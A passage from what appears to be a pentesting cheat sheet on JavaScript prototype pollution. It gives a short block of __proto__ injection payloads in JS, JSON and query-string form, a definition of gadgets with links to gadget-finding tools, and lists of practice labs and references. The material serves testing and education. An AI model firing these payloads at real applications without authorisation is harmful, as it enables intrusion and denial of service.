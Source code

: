 - Client-side bypass: [Prototype pollution – and bypassing client-side HTML sanitizers](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)
- Denial of Service

<br>

### Prototype Pollution Payloads

```js
Object.__proto__["evilProperty"]="evilPayload"
Object.__proto__.evilProperty="evilPayload"
Object.constructor.prototype.evilProperty="evilPayload"
Object.constructor["prototype"]["evilProperty"]="evilPayload"
{"__proto__": {"evilProperty": "evilPayload"}}
{"__proto__.name":"test"}
x[__proto__][abaeead] = abaeead
x.__proto__.edcbcab = edcbcab
__proto__[eedffcb] = eedffcb
__proto__.baaebfc = baaebfc
?__proto__[test]=test
```

<br>

### Prototype Pollution Gadgets

A "gadget" in the context of vulnerabilities typically refers to a piece of code or functionality that can be exploited or leveraged during an attack. When we talk about a "prototype pollution gadget," we're referring to a specific code path, function, or feature of an application that is susceptible to or can be exploited through a prototype pollution attack.

Either create your own gadget using part of the source with [yeswehack/pp-finder](https://github.com/yeswehack/pp-finder), or try to use already discovered gadgets [yuske/server-side-prototype-pollution](https://github.com/yuske/server-side-prototype-pollution) / [BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution).

## Labs

- [YesWeHack Dojo - Prototype Pollution](https://dojo-yeswehack.com/XSS/Training/Prototype-Pollution)
- [PortSwigger - Prototype Pollution](https://portswigger.net/web-security/all-labs#prototype-pollution)

## References

- [A Pentester's Guide to Prototype Pollution Attacks - Harsh Bothra - January 2, 2023](https://www.cobalt.io/blog/a-pentesters-guide-to-prototype-pollution-attacks)
- [A tale of making internet pollution free - Exploiting Client-Side Prototype Pollution in the wild - s1r1us - September 28, 2021](https://blog.s1r1us.ninja/research/PP)
- [Detecting Server-Side Prototype Pollution - Daniel Thatcher - February 15, 2023](https://www.intruder.io/research/server-side-prototype-pollution)
- [Exploiting prototype pollution – RCE in Kibana (CVE-2019-7609) - Michał Bentkowski - October 30, 2019](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)
- [Server Side Prototype Pollution: Blackbox Detection Without The DoS - Gareth Heyes - March 27, 2023](https://youtu.be/LD-KcuKM_0M)
- [NodeJS - \_\_proto\_\_ & prototype Pollution - HackTricks - July 19, 2024](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution)
- [Prototype Pollution - PortSwigger - November 10, 2022](https://portswigger.net/web-security/prototype-pollution)
- [Prototype pollution - Snyk - August 19, 2023](https://learn.snyk.io/lessons/prototype-pollution/javascript/)
- [Prototype pollution and bypassing client-side HTML sanitizers - Michał Bentkowski - August 18, 2020](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)
- [Prototype Pollution and Where to Find Them - BitK & SakiiR - August 14, 2023](https://youtu.be/mwpH9DF_RDA)
